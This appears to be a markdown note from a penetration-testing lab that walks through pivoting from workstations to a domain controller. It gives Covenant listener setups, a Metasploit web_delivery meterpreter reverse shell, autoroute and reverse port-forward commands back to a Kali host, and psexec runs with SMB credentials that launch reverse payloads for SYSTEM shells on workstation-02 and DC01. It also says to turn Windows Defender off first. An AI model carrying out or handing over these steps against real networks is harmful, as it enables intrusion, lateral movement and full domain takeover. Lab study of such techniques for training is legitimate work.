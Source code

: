

## Reverse Port Forwarding for Shell on DC01
Make sure WDefender are off

We need to have 3 listener **in Covenant**:
```powershell
1: HTTP Listener / ConnectAddress= kali ip / Port=80 
#External = its used to get workstation-01 access

2: Reverse HTTP / ConnectAddress= workstation-01 / port=2222 / bindport=443
# Internal - its used to get workstation-02 access through workstation-01 portfwd

3: reverse listener2 / ConnectAddress=workstation-01(secure) / port=2223 / binport=8082
# Secure - its used to get domain access through workstation-01 portfwd

# Create a powershell launcher \for each of the listeners
```

**msfconsole**:
```powershell
use exploit/multi/script/web_delivery
set target 2 = \for powershell
set payload windows/x64/meterpreter/reverse_tcp
set lhost, lport
exploit -j
# copy the payload and run in workstation-01

ipconfig
```

> Here we can see, that we need to setup 2 routes. 
Cause there is 2 more networks besides the external one.

> external - internal - secure


**meterpreter session**:
```powershell
run autoroute -s <internal network ip = 192.168.16.0/24>
run autoroute -s <secure network ip = 10.120.116.0/24>

portfwd add -R -p 2222 -l 443 -L <kali ip>
portfwd add -R -p 2223 -l 8082 -L <kali ip>
portfwd # to show the port forwards actives
# backgroud the session
```

use exploit/windows/smb/psexec
```powershell
set smbdomain, smbuser, smbpass, payload=windows/x64/exec, rhost
set cmd <Reverse HTTP payload from covenant>
exploit
```

> get a shell back from covenant - workstation-02 System

```powershell
set rhosts <DC IP> = we can get the ip by pinging DC01 from workstation-01
set cmd <reverse listener2 payload from covenant
exploit
```

> get a shell back from covenant - DC01 - System

